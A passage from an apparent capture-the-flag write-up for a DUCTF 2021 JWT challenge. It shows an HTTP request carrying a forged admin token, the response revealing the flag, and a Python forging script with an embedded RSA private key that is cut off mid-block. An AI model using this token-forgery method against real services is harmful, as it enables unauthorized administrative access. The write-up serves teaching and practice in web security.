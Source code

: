 ```
POST /get_flag HTTP/2
Host: web-jwt-b9766b1f.chal-2021.duc.tf
Sec-Ch-Ua: "Chromium";v="93", " Not;A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 224

jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhZG1pbiI6dHJ1ZSwibm93IjoxNjMyNTM2NzYxLjQ2NTE3MzJ9.Chjv26Mt7SJ9A0h2Mf25nwjvpf4Lb8cTj2QliJDPZrPlXVC37LI3fcLylLezLe-wtJz3mGAY1FRvIqvoaie4OBiwygZ_DrTtwiIj5tkbcgbJeHf3M8qEB8pFwQGaDwh1Tg
```

And this is the HTTP response that came back:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Date: Sat, 25 Sep 2021 02:37:24 GMT
Server: nginx/1.21.1
Strict-Transport-Security: max-age=15552000
Content-Length: 27

DUCTF{json_web_trickeryyy}
```

WOOT!

I thought this was a great challenge since it chained together two totally different independent vulnerabilities in order to solve it.


# Notes Added Later

When someone tried to follow these steps, they found that jwt.io could not be used to generate the forged token.  Indeed, when I went back to try it, I was unable to get jwt.io to generate this token either!  I can't explain why it worked for me originally.  I'm glad I took a screenshot to prove it.

Here's an easy alternate way to generate the forged token.

Create a python file containing the following and run it to get the forged token:
```
import jwt

private_key = """-----BEGIN RSA PRIVATE KEY-----
MIIB+wIBAAJhEIt8da7h4rnfNpKizFSxANERACGT68nDz1deSxb1lcwo2bR6ZdHz
d0qj2wVkkIVYkjD+I7/MLvh2tBNNr95EhNe96Mm4ABbZya7VOgM0rjSDzIMzdDAe
GngppfWACnk4AwIDAQABAmEKpfUIG6wBMAOtnv0vdki0XiDfW6KTMDRDvdcjryUd
sIi8WaAV8ZW9z9XWw/v8U/4DrOzW5nJwm2BwMRfpIfKlS/QW0gX/TR+btntJc6P8
wnks0vynK8S9A+l4kegxYrSxAmEAkg0einG4Xq9r0BdE1shPeffCNh+VXzu3s5B+
LO38Vnz+rfKQwJ5230Nxe8WstSZdUSM/Bp0cGjkPCX5D24bGyaVx9Uz3LO0G9F+g
5aC2jw1fU/jyWe9iBCS/Gh7l4N6fAgEdAmBhCOJfrQqHrhj9WlhcMx3KtTeNahJ+
AVkdrkSGaV+bvtQekehmcWIdF9wQFdeXS3P4cmhvZnbDXWGGNyOyeKseUhOSnJ4k
dR6HwflOVyaziHjre5zY79i5VAi7vAeTDZUCAQUCYG7MKNL1KsNqmGjlg6vEGPts
```